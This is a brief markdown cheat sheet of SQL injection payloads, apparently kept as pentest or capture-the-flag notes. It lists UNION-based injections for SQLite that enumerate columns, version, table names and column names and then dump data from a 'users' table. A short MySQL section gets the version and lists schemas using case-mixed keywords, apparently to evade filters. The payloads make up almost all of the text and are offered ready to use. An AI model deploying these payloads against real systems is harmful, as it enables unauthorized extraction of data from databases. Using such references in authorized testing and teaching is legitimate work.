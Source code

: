 ### SQLI

#### SQLITE

```' order by #``` => to get the number of columns

```' union select (select sqlite_version()),NULL,NULL,NULL--``` => to get the sqlite version

```' union select (select group_concat(name) from sqlite_master where type='table'),NULL,NULL,NULL--``` => to get table names

```' union select (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('users')),NULL,NULL,NULL--``` => to get column names in a table called users

```' union select (SELECT group_concat(notes) FROM 'users'),NULL,NULL,NULL--``` => to get data from notes column in users table

#### MySQL

for version => @@VERSION => union select (@@VERSION)

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,schema_name,0x7c))+from+information_schema.schemata+--+-